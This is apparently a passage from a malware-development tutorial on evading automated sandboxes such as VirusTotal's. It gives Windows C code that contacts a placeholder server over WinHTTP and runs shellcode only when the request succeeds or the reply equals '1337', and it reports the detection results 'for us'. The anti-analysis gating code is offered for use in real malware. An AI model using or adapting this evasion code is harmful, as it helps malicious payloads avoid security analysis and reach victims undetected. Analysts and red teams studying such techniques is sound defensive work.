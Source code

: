 ## Detecting automated analysis
There are several evasions specific to automated sandboxes. They are based on particularly limited resources available in sandbox environments. Such execution environments often lack actual Internet connection and user interaction.

### Internet connection
Sandboxes usually do not provide Internet connection however they may simulate valid responses from remote servers. Let's see when we make shellcode execution dependent on the result of a HTTP request:

```c
HINTERNET hSession = WinHttpOpen(L"Mozilla 5.0", WINHTTP_ACCESS_TYPE_AUTOMATIC_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
HINTERNET hConnection = WinHttpConnect(hSession, L"my.domain.or.ip", INTERNET_DEFAULT_HTTP_PORT, 0);
HINTERNET hRequest = WinHttpOpenRequest(hConnection, L"GET", L"test", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, NULL);
WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
BOOL status = WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
if (!status) return false;
```

Analysis results were slightly better (for us) than without HTTP connection checking. IP IoCs were not extracted by VT sandbox.

![VT http check](../images/2020-04-05-Malware_development_part_2/VT_http_check.png)

Single HTTP request was received on the target server. This means that some systems extend the analysis to the "real world".

We can further develop this evasion method and execute the shellcode only after receiving a specific response:

```c
HINTERNET hSession = WinHttpOpen(L"Mozilla 5.0", WINHTTP_ACCESS_TYPE_AUTOMATIC_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
HINTERNET hConnection = WinHttpConnect(hSession, L"my.domain.or.ip", INTERNET_DEFAULT_HTTP_PORT, 0);
HINTERNET hRequest = WinHttpOpenRequest(hConnection, L"GET", L"test", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, NULL);
WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
WinHttpReceiveResponse(hRequest, 0);
DWORD responseLength;
WinHttpQueryDataAvailable(hRequest, &responseLength);
PVOID response = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, responseLength + 1);
WinHttpReadData(hRequest, response, responseLength, &responseLength);
if (atoi((PSTR)response) != 1337) return false;
```
